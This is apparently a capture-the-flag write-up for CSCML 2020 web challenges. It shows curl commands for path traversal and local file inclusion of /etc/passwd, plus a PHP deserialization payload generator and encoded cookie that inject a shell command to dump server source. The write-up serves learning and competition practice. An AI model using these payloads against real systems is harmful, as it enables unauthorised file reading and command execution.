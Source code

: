 # WebServer I

```
╭─zoey@virtual-parrot ~/sec ‹master*› 
╰─$ curl $'http://ctf.cscml.zenysec.com:20001/%2E%2E/flag.txt'                                                                                                                                    
CSCML2020{k33p_c41m_4nd_235342ch_0n}
```

# Scroll

In the source of the page is a commented out line for search.php.  When we try to utilize it for LFI it works, looking around we find

```
╭─zoey@virtual-parrot ~/sec/cscml ‹master*› 
╰─$ curl --silent "http://134.122.112.105:20004/search.php?img=/etc/passwd" | grep CSCML
CSCML2020{7h4nk_Y0u_F0R_r34D1N9_My_8L09}
```

# Galleria 1

curl "'http://134.122.94.112/get_files_items.php?debug=TRUE&folder=.."

# Galleria 2

Looking at the initial request we find a cookie that looks like a serialized php string that's been urlencoded `Set-Cookie: tracked=s%3A5%3A%22false%22%3B`

If we start enumerating the rest of the site we'll see that directory listings are possible, and looking in `http://164.90.176.158/assets/php/` we find a
`StatisticsClass.php.bak` file which means we can download the source.  The server is just going to give us the file rather than execute it.  And we see

```php
<?php

class Statistics 
{
    private $counter_output_path = "/tmp/counter";

    public function __construct()
    {
        if (!file_exists($this->counter_output_path))
        {
            system("touch {$this->counter_output_path}");
        }
    }

    public function update($client_ip_address)
    {
        file_put_contents($this->counter_output_path, $client_ip_address . PHP_EOL, FILE_APPEND);
    }

    public function __destruct()
    {
        system('find ' . escapeshellcmd($this->counter_output_path) . ' && echo Statistics Plugin version 1.0 is working');
    }

    public function getNumberOfVisitors()
    {
        return system("wc -l /tmp/counter | awk '{print $1}'");
    }
}
```

This class looks to be vulnerable to object injection given the `__destruct()` call, and it looks like the `system()` call should be vulnerable to
command injection.  Let's try and set something up to generate a payload for us:

```php
<?php

class Statistics {

    private $counter_output_path = ". -name *.php -exec cat {} ;";
}


echo "Cookie: tracked=" . urlencode(serialize(new Statistics())) . "\n";
```

I came up with the above `$counter_output_path` via some trial and error, just to get something in place to test the command injection and give us some
results to see if it worked properly.  Let's try it out.

```
╭─zoey@virtual-parrot ~/sec/cscml/galleria1 ‹master*› 
╰─$ php gen-payload.php 
Cookie: tracked=O%3A10%3A%22Statistics%22%3A1%3A%7Bs%3A31%3A%22%00Statistics%00counter_output_path%22%3Bs%3A28%3A%22.+-name+%2A.php+-exec+cat+%7B%7D+%3B%22%3B%7D
╭─zoey@virtual-parrot ~/sec/cscml/galleria1 ‹master*› 
╰─$ curl --silent -H "Cookie: tracked=O%3A10%3A%22Statistics%22%3A1%3A%7Bs%3A31%3A%22%00Statistics%00counter_output_path%22%3Bs%3A28%3A%22.+-name+%2A.php+-exec+cat+%7B%7D+%3B%22%3B%7D" http://164.90.176.158/ | grep FLAG
</html><?php // S2FLAG:xADGFHSFNDHJBXSETGsg ?>
```

Sending the request the first time it was obvious it was a success as we got the source for every php file included in the response.  I was assuming we'd then need
to go on to search for other files or try to setup a reverse shell, but in the source I saw a comment with `FLAG` in it.  The `grep` in the above it just to filter
out all the other source code and display the flag.